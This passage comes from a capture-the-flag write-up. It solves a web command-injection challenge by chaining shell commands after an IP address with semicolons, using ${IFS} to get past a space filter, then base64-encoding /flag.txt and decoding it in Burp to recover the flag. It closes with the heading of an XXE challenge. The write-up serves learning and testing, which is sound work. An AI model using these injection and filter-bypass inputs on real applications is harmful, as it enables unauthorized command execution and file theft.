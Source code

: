 Now let's try on our target flag.

```
127.0.0.1;whoami;dir${IFS}-a;more${IFS}/fl?g.txt
```

![16-CanREAD](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/fbb59b72-d8d9-48b7-a56b-ea54f281126c)

Great!! It forgot all our previous output, and told us that we can read the flag!! So apparently we got the right methode. Now apparently, reading the flag return the output saying that we can read it. Why? Maybe because the application told that if you read the flag, it will not print the content but return that, yes you can read it.

So how bypass it? Let's see if we can use ```base64``` to encode the flag.

```
127.0.0.1;whoami;dir${IFS}-a;base64${IFS}--help
```

![17-Base64](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/9e45cf6f-d4d2-4d2a-9593-757e673310f3)

Perfect! Now let's encode the flag.


```
127.0.0.1;whoami;dir${IFS}-a;base64${IFS}/flag.txt
```

![18-FlagEncoded](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/0cb05217-63b7-4132-a3c7-c184d6fe7b6d)


Good we get the ```base64```, on Burp, in the "Response" part, you can swith to ```Raw``` view to select the base64.

```base64
ZGVhZHtva29rb2shISFfdGgxc19mbEFnX2YwUl9ZMFV9Cg==
```

![19-RAWWR](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3414afd8-909b-4a89-84b4-e2efbd953af1)


Now at the rigth you should have the ```base64``` auto decoded, if not, you can simply right click on the base64 strings, click on "send to decoder" and then on the "decoder" tab, decode it from base64 to ascii.

![20-Flag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3e0f38f1-d775-4b71-9b8a-6ac15e6c71b0)

FLAG : **dead{okokok!!!_th1s_flAg_f0R_Y0U}**

## XXE1<a name="XXE1"></a>

Value : **50pts**

Author : **onsra**

Description :

```
flag in flag.txt

**Url: [https://www.deadsec.xyz/instances/xee1](https://www.deadsec.xyz/instances/xee1)**
```
